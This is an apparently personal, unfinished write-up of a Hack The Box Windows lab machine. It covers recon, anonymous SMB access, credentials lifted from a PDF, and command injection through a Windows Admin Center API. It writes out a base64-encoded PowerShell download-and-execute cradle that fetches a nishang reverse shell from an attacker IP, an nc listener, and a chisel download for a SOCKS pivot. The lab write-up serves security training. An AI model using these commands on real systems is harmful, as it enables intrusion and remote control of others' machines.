








---
tags:
  - box
  - ldap
  - smb
  - nxc
  - smbclient
platform: HTB
os: Windows
difficulty: medium
date_completed:
mitre_attack:
status:
---

## Target

**IP Address:** 10.129.7.226

**Platform / OS:** Windows

## Recon

### Port Scan

```bash
nmap -T4 -O -Pn -v -sV -sC -p- -oA targetScan <target>
```

#### Findings

| Port  | Service     | Notes                                                   |
| ----- | ----------- | ------------------------------------------------------- |
| 53    | DNS         | Simple DNS Plus                                         |
| 80    | http        | Microsoft IIS httpd 10.0                                |
| 88    | Kerberos    | server time: 2026-08-11 23:30:10Z                       |
| 135   | MSRPC       | Microsoft Windows RPC                                   |
| 139   | Netbios     | Microsoft Windows netbios-ssn                           |
| 389   | ldap        | Domain: danglingtree.htb, Site: Default-First-Site-Name |
| 443   | ssl/https?  | danglingtree-dc-ca                                      |
| 445   | smb         |                                                         |
| 464   | kpasswd5    |                                                         |
| 593   | ncacn_http  | Microsoft Windows RPC over HTTP 1.0                     |
| 636   | ssl/ldap    | Domain: danglingtree.htb, Site: Default-First-Site-Name |
| 3268  | ldap        | Domain: danglingtree.htb, Site: Default-First-Site-Name |
| 3269  | ssl/ldap    | Domain: danglingtree.htb, Site: Default-First-Site-Name |
| 3389  | rdp         | dc.danglingtree.htb                                     |
| 6600  | ssl/mshvlm? | dc.danglingtree.htb                                     |
| 9389  | mc-nmf      | .NET Message Framing                                    |
| 49664 | msrpc       | Microsoft Windows RPC                                   |
| 49675 | msrpc       | Microsoft Windows RPC                                   |
| 49677 | msrpc       | Microsoft Windows RPC                                   |
| 49681 | msrpc       | Microsoft Windows RPC                                   |
| 49682 | ncacn_http  | Microsoft Windows RPC over http 1.0                     |
| 49689 | msrpc       | Microsoft Windows RPC                                   |
| 49706 | msrpc       | Microsoft Windows RPC                                   |
| 49722 | msrpc       | Microsoft Windows RPC                                   |
| 49769 | msrpc       | Microsoft Windows RPC                                   |

## Enumeration

Port 80 and 443 are just the default IIS pages

Port 6600 takes me to a `Windows Admin Center` page



SMB on port 445 has an open share with a file in it that I can grab

```bash
smbclient -N -L //10.129.7.226
```

## Exploitation

Going through the SMB share results in a foothold.

```bash
smbclient -N -L //10.129.7.226

smbclient -N //10.129.7.226/IT
	> dir
	> cd Security\
	> dir
	> get DanglingTree_RoE_Assessment.pdf
	> exit
```


After converting the pdf to text I was able to find some credentials to try in the network

```bash
pdftotext DanglingTree_RoE_Assessment.pdf
cat DanglingTree_RoE_Assessment.txt
```



**Credentials Found**
`Domain:` danglingtree.htb
`Username:` anderson.w
`Password:` R3dT3am@Acc3ss#01

```bash
nxc ldap 10.129.7.226 -d 'danglingtree.htb' -u 'anderson.w' -p 'R3dT3am@Acc3ss#01'
```



Credentials worked for a successful ldap connection

Using these credentials on the `Windows Admin Center` page works to login as well



Tried to connect to the dc shown in the admin center and got an access denied response.

Using `burpsuite`, I was able to look at the call that the site made to try and connect to the DC. I then passed this to repeater and edited the command to a simple `whoami` to see if I can run commands myself



The call shows that I am `anderson.w` so now to see what else I can do

I took the `nishang` script, Invoke-PowerShellTcp.ps1 and hosted it on a python web server.
Start a listener on my machine.
Encoded the command to grab that script and run it in memory as a base64 string.
Then passed that and the decode and run command to the windows admin center api to get a reverse shell back.

```bash
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./
python3 -m http.server 4242
```

```powershell
$cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.142:4242/Invoke-PowerShellTcp.ps1')"
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))
```

```bash
nc -lvnp 4444
```

Now in burpsuite pass the following as the script to run through the api

```json
{"properties":{"script": "$b64='SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANQAuADEANAAyADoANAAyADQAMgAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACcAKQA='; iex([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($b64)))"}}
```



Looks like there may be a service running only internal to the machine.

```cmd
netstat -antop tcp
```



I will put chisel on the machine from my python server running and open a socks proxy so that I can connect to those internal ports

```powershell
iwr -uri http://10.10.15.142:4242/chisel.exe -outfile ./chisel.exe
```

```bash
chisel server --reverse --port 51234
```

```powershell
./chisel.exe client 10.10.15.142:51234 R:1080:socks
```

Now using proxy chains I should be able to scan those ports

```bash
sudo proxychains4 -q nmap -sT -Pn -T4 -sC -v -sV 127.0.0.1 -oA internal.tcp -p 25,53,110,143,587,5222
```


| Port | Service     | Notes             |
| ---- | ----------- | ----------------- |
| 25   | smtp        |                   |
| 53   | dns         | Simple DNS Plus   |
| 110  | pop3        | SmarterMail pop3d |
| 143  | imap        | SmarterMail imapd |
| 587  | submission? |                   |
| 5222 | xmpp-client |                   |


## Privilege Escalation

<!-- Path from initial foothold to full admin/root/system -->

## Flags

**User:**

**Root/System:**

## Lessons Learned

<!-- Anything worth remembering for next time - technique, gotcha, tool quirk -->
